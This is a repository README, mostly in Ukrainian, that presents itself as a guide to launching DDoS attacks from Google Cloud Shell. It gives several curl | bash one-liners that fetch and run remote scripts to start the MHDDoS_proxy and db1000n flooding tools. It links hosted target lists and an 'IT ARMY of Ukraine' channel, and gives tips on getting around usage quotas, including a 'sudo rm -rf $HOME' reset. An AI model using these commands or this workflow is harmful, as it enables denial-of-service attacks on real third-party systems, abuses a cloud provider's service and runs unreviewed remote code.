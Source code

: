## DDoS whith Google Cloud Shell
#### Scripts for durable cloudshell session. Test!
#
### Використовуємо https://shell.cloud.google.com/?fromcloudshell=true&show=terminal
#
### Команди для встановлення та запуску MHDDoS_proxy
:white_check_mark:**Layer7:**
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m.sh | bash
```
:grey_question:**Layer4:**    
~~`curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L4.sh | bash`~~    
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/L4_tcp.sh | bash
```
:grey_question:***--itarmy*:**    
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/itarmy.sh | bash
```
:grey_question:**All targets:**    
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/ALL.sh | bash
```
:grey_question:**Розділений термінал (Layer7+Layer4):**    
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_dualShell.sh | bash
```    
#
### :white_check_mark: Команда для встановлення та запуску db1000n 
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/db1000n_GShell.sh | bash
``` 
#
:exclamation:• У [Google Cloud Shell](https://shell.cloud.google.com/?fromcloudshell=true&show=terminal) в налаштуваннях бажано **вимкнути статистику використання**.    
:exclamation:• **Рекомендується використовувати 1 термінал на акаунт**.    
:exclamation:• Максимальна тривалість сеансу Cloud Shell - 12 годин. Новий сеанс можна почати одразу після розриву.    
:exclamation:• Враховуйте, що встановлені тижневі квоти на використання, 1 акаунт - 50 годин у звичайному режимі та 50 годин у ефемерному режимі (*до закінчення квоти у звичайному режимі - вмикаємо Ephemeral Mode (ставимо - "Завжди") та отримуємо ще 50 годин використання на поточний тиждень*)    
• **Для скидання Cloud Shell** - Видаліть усі файли з домашнього каталогу, команда: `sudo rm -rf $HOME`, далі - у меню Cloud Shell клацніть значок меню з трьома крапками, а потім натисніть "Restart" *(Буде надано нову віртуальну машину, а домашній каталог буде відновлено до стану за замовчуванням)*
#
#
#### Списки з цілями
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst    
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4_tcp.lst
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/AllTargets.lst
#
#
[IT ARMY of Ukraine](https://t.me/itarmyofukraine2022)
